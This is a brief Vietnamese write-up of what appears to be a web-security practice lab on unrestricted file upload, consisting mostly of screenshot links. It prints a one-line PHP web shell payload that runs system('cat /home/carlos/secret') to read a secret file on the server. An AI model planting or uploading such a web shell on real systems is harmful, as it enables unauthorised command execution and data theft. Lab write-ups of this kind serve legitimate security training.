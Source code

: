 ![image](https://github.com/user-attachments/assets/f3f88197-9e43-4328-af83-5242fa5cc770)

Bắt đầu challenge thì ta có thể thấy được rằng đơn giản chỉ là challenge bắt đầu thôi chứ nó cũng chả có gì hot.

Tiến hành up file shell .php lên v:

Payload:

```
<?php
system("cat /home/carlos/secret");
```

![image](https://github.com/user-attachments/assets/1da9c4e9-388f-478d-bdfa-1468507ce7a2)

![image](https://github.com/user-attachments/assets/1147586d-4af5-44cf-a30f-f2c9b463520e)

Thành công

Đây là solution của tác giả.

![image](https://github.com/user-attachments/assets/4444b155-6327-46f6-9031-da1a4e7c8f3b)
